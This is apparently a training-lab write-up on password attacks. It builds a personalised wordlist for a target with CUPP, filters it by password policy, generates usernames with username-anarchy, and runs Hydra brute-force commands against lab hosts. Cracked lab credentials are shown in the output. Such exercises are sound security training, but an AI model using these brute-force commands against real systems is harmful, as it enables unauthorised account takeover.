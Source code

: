 I initialized cupp in interactive mode and filled Jane's data. Then I grepped the wordlist to meet her company's password requirements:

```shell
cupp -i

[filled data]

grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```

- Minimum Length: 6 characters
- Must Include:
    - At least one uppercase letter
    - At least one lowercase letter
    - At least one number
    - At least two special characters (from the set `!@#$%^&*`)

Then I generated all possible usernames for Jane with username Anarchy:

```shell
./username-anarchy Jane Smith > jane_smith_usernames.txt
```

Then I performed the attack with Hydra:

```shell
hydra -L jane_smith_usernames.txt -P jane-filtered.txt 94.237.55.128 -s 57736 -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"

[redacted]
[57736][http-post-form] host: 94.237.55.128   login: jane   password: 3n4J!!
```

![](Pasted%20image%2020250304002053.png)

# Skills Assessment 1

I first downloaded both wordlists in use:  [usernames.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt) and [passwords.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt)

![](Pasted%20image%2020250304002437.png)

So I'll run the following attack with Hydra:

```shell
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt 83.136.249.46 http-get / -s 33448 -t 4

[redacted]
[33448][http-get] host: 83.136.249.46   login: admin   password: Admin123
```

Then, when I log in I get this prompt `satwossh`:
